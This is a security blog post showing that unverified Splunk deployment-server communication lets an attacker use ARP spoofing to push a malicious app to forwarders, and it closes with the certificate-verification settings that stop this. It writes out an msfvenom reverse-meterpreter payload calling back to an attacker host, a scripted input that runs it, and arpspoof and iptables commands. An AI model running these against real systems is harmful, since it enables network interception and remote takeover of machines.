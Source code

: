 ```yaml
---
layout: post
author: Donald Murchison
category: pr0j3cts
title: "Splunk: Verify your Deployment Server Certificates"
---
```


![Splunk Logo]({{ site.url }}/assets/splunk/splunk_logo.png)

A while ago, I undertook a project to review my department's Splunk deployment and make sure that the different forms of communication were properly secured with TLS. This can be a daunting task in a large enterprise, but I found an excellent presentation from 2015 by Duane Waddle on how to secure all the different components of Splunk communication using SSL.

[Splunk SSL Best Practices](https://conf.splunk.com/session/2015/conf2015_DWaddle_DefensePointSecurity_deploying_SplunkSSLBestPractices.pdf) 

A major area of concern for me was deployment server (DS) to forwarder communication. Deployment servers can push and execute arbitrary code and by default this is done with no verification of the server from the forwarder side. I was worried that a simple man in the middle(MITM) attack would allow an attacker to install applications on endpoints throughout the Enterprise. I had asked my Splunk contacts and other administrators what they did to secure this area of their deployment and for the most part the answer was "nothing". At one point, I was even told securing this communication would cause major issues and that the MITM I was describing would not work. I had been under the impression, stopping this type of attack was one of the main reasons for Duane's presentation, so I decided to test if this was possible.

**tl;dr - It is. Use sslVerifyServerCert, sslCommonNameToCheck, and caCertFile on the forwarder to stop this.**

I tested this a while ago and kept struggling to write a thorough post, so I decided to write this quick and dirty post so forgive me if there are some gaps in my description. 

This attack does not require any Splunk credentials and is NOT due to a vulnerability in Splunk. This attack is only possible due to poor configuration by administrators.

## The Environment

*Splunk Components*
- Splunk Enterprise acting as Search Head/Indexer/DS combo
- Attacker Splunk Enterprise acting as Search Head/Indexer/DS combo
- Windows 10 with Splunk Universal Forwarder installed
- Developer's License (Required for DS features of Splunk)

I'm not going to describe how to setup or install a distributed Splunk environment just describe some of the important pieces here. 

Default Splunk certificates are being used on the victim Splunk Enterprise and forwarder installs. 

The forwarder has the following in deploymentclients.conf

{% highlight bash %}
[deployment-client]

[target-broker:splunk]
targetUri = <deployment server ip>:8089 

{% endhighlight %}

I verified that the forwarder was communicating with the DS and pushed a few base apps out. 

![Deployment Server Apps]({{ site.url }}/assets/splunk/DS_apps.png)

Here is the current apps directory on the Windows 10 machine (some apps had been installed locally prior to this test).

![Windows 10 Initial Apps]({{ site.url }}/assets/splunk/Win10_init_apps.png)

Setting up the attacker machine

I first installed a full version of Splunk Enterprise, and applied the developer license. I also updated the mgmtHostPort to run on port 8088 by adding a web.conf to system/local. I will explain why I did this when I discuss the MITM attack.

{% highlight bash %}
[settings]
mgmtHostPort=0.0.0.0:8088

{% endhighlight %}

I then created a malicious app, reverse_shell, to deploy an executable which would create a reverse meterpreter shell.

{% highlight bash %}

msfvenom --platform windows -a x64 LHOST=<Kali IP> LPORT=1234 -b \x00 -p windows/x64/meterpreter/reverse_tcp -o /opt/splunk/etc/deployment-apps/reverse_shell/bin/evil.exe

{% endhighlight %}

In local/inputs.conf

{% highlight bash %}
[script://$SPLUNK_HOME/etc/apps/reverse_shell/bin/evil.exe]
disable=false
interval=10
sourcetype=evil

{% endhighlight %}

![Scripted Input for Evil.exe]({{ site.url }}/assets/splunk/evil_scripted_input.png)

I decided to include a deploymentclients.conf pointing to the real DS IP, in case these settings are in the apps directory on the forwarder. This allows us to restore normal communication once we have the reverse shell. Other things like an outputs.conf pointing to the attacker machine could also be deployed to stop logs from being sent to the indexers during our attacking phase. 

**A caveat to this is the attacker needs to know the IP or hostname of the DS. However, this should not be too hard for an attacker to discover if they are on your network**

Next I set up the corresponding server class and set the reverse_shell app to restart splunk on install. 

![Attacker Deployment Server Apps]({{ site.url }}/assets/splunk/attack_ds_apps.png)

I specified "*" for the server class clients so any new clients phoning home would have the app installed.

The next step is to setup a meterpreter handler and run a man in the middle attack to impersonate the real DS. 

![MSFconsole Handler Setup]({{ site.url }}/assets/splunk/msf_listener.png)

For the MITM attack, I used the arpspoof tool included in Kali. This tricks the windows 10 victim machine into thinking the MAC address for the DS is actually my Kali machine's MAC address, causing the traffic to be routed to my Kali machine. 

*One issue that I ran in to was that the attcker Splunk Enterprise instance would not respond to traffic destined for a different IP. To bypass this, I set up an iptables rule to nat traffic with destination port 8089 to my attacker IP on port 8088. This is why I changed the management port on the initial set up (Note: port change may not have been necessary)*

## Running the attack

{% highlight bash %}

iptable -t nat -I PREROUTING -p tcp --dport 8089 -j DNAT --to-destination <attacker ip>:8088

arpspoof -I eth0 -t <Windows 10 IP> <DS IP>

{% endhighlight %}

![ArpSpoof Attack]({{ site.url }}/assets/splunk/arpspoof.png)

Examining the Windows machine to see if we successfully installed the malicious applications.

![Windows 10 Malicious Apps]({{ site.url }}/assets/splunk/win10_evil.png)

And then lets verify the reverse shell connected.

![Meterpreter Shell]({{ site.url }}/assets/splunk/meterpreter_shell.png)

We have a shell on the system! Now I stop the arpspoof and the system should re-establish communication with the real DS and everything should appear back to normal.

![Windows 10 Restore]({{ site.url }}/assets/splunk/win10_restore.png)

An interesting note is that when I the reverse_shell app was uninstalled it killed the meterpreter session even though the connection was already established.

![Shell Killed]({{ site.url }}/assets/splunk/shell_killed.png)

There are obviously many caveats to the way I did this attack. No layer 2 security, known DS information, a full install of Splunk with a valid license, but it shows the dangers of not securing the DS communication. Even if MITM protections are implemented in your network, do all of the networks your machines connect to provide the same protections?

## Securing Splunk

Not only is this possibly a huge threat to your environment, it is incredibly simple to stop through proper Splunk configs, especially if you use your own certs to secure HTTPS for the DS already. I won't go in to the full process of generating your own certs for Splunk, here is a link to some resources, [About Securing Splunk to Splunk Communication](https://docs.splunk.com/Documentation/Splunk/7.3.0/Security/AboutsecuringSplunktoSplunkcommunication). Once you have your own cert set up for web.conf and server.conf, we just need to deploy the CA chain to the forwarders with some updated configs, which can all be done through the DS. 

**This solution only verifies certificates on the forwarder side and does not require  the forwarders to have their own SSL certs (Much easier to deploy and manage)**

To implement this, we want to create an app to push to the forwarders. This app will contain a deploymentclients.conf and a ca.pem, that's it! I like create the base app with a local and auth subdirectory. We can copy the CA chain referenced in server.conf on the DS (likely located at $SPLUNK_HOME/etc/auth/myCerts/ca.pem or something similar) in the auth directory of the app.

![Solution App Structure]({{ site.url }}/assets/splunk/ds_app_structure.png)

Then we configure deploymentclients.conf to look like the following:

{% highlight bash %}

[deployment-client]
sslVerifyServerCert=true
caCertFile=$SPLUNK_HOME/etc/apps/<this apps name>/auth/ca.pem
sslCommonNameToCheck = <common name in DS cert>

[target-broker:<group name>]
targetUri = <DS IP or hostname>:8089

{% endhighlight %}

The forwarder should now verify the DS certificate before installing any applications. This is relatively simple, does not put any significant strain on resources, and mitigates a possibly huge threat.

